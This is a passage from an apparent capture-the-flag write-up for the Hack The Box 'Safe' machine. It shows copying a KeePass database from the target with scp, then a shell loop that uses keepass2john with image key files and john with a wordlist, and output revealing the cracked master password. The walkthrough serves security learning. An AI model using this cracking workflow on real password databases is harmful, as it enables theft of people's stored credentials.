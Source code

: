 ```
root@kali:~/htb/safe# scp user@10.10.10.147:~/*.kdbx .
MyPasswords.kdbx                                                                   100% 2446     9.6KB/s   00:00   
```
#### Extracting and cracking hashes with keepass2john (and john)

[Based on this article](https://www.rubydevices.com.au/blog/how-to-hack-keepass), there is a nifty tool for extracting hashes from a Keepass database - keepass2john.

`Usage: keepass2john [-k <keyfile>] <.kdbx database(s)>`

The shell script below will extract the hashes into hashes.txt before getting john to crack the hash. It loops through the JPG files as key files.

```
#!/bin/sh
for file in *.JPG
do
  echo "For $file"
  keepass2john -k $file MyPasswords.kdbx > hashes.txt
  john --wordlist=/root/resources/10k-most-common.txt hashes.txt
done
```

**Output**

```
root@kali:~/htb/safe# bash loopimages.sh
For IMG_0545.JPG
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:44 DONE (2020-02-26 14:12) 0g/s 95.47p/s 95.47c/s 95.47C/s booper..eyphed
Session completed
For IMG_0546.JPG
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:40 DONE (2020-02-26 14:13) 0g/s 99.27p/s 99.27c/s 99.27C/s booper..eyphed
Session completed
For IMG_0547.JPG
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (MyPasswords)
1g 0:00:00:04 DONE (2020-02-26 14:14) 0.2409g/s 107.9p/s 107.9c/s 107.9C/s kitten..horney
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Findings:
